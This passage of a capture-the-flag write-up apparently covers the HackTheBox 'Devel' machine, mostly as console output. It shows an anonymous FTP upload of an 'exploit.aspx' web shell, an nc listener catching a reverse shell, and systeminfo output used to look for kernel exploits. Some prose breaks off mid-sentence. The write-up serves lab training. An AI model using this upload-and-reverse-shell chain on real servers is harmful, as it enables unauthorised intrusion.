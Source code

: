 ```console
└──╼ [★]$ ftp 10.129.51.128
Connected to 10.129.51.128.
220 Microsoft FTP Service
Name (10.129.51.128:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put exploit.aspx
local: exploit.aspx remote: exploit.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2782 bytes sent in 0.00 secs (50.0589 MB/s)
ftp> 
```
Set up a listener and navigate to the file from the webpage ```http://10.129.51.128/exploit.aspx``` and boom we get our shell!

Right now we still have no power and can not even get the user flag.

I tried abusing some of the priviliges but to no avail. However running a 

```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.51.128.
Ncat: Connection from 10.129.51.128:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

This shows that there is really nothing patched on here so we likely have an easy exploit. So lets run winPEAS and see what it finds for kernel exploits.

```console
c:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/9/2022, 8:01:34 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
```